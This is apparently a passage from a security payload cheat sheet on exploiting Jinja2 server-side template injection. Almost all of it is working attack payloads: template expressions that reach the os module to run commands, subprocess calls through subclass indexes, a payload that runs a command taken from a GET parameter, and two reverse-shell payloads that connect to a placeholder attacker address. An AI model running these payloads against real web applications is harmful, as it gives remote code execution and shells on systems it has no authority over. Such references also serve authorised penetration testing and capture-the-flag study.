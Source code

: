 ```python
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```

Source [@podalirius_](https://twitter.com/podalirius_) : <https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/>

With [objectwalker](https://github.com/p0dalirius/objectwalker) we can find a path to the `os` module from `lipsum`. This is the shortest payload known to achieve RCE in a Jinja2 template:

```python
{{ lipsum.__globals__["os"].popen('id').read() }}
```

Source: <https://twitter.com/podalirius_/status/1655970628648697860>

#### Exploit The SSTI By Calling subprocess.Popen

:warning: the number 396 will vary depending of the application.

```python
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

#### Exploit The SSTI By Calling Popen Without Guessing The Offset

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

Simply modification of payload to clean up output and facilitate command input (<https://twitter.com/SecGus/status/1198976764351066113>)
In another GET parameter include a variable named "input" that contains the command you want to run (For example: &input=ls)

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
```

#### Exploit The SSTI By Writing An Evil Config File

```python
# evil config
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}

# load the evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  

# connect to evil host
{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }}
```
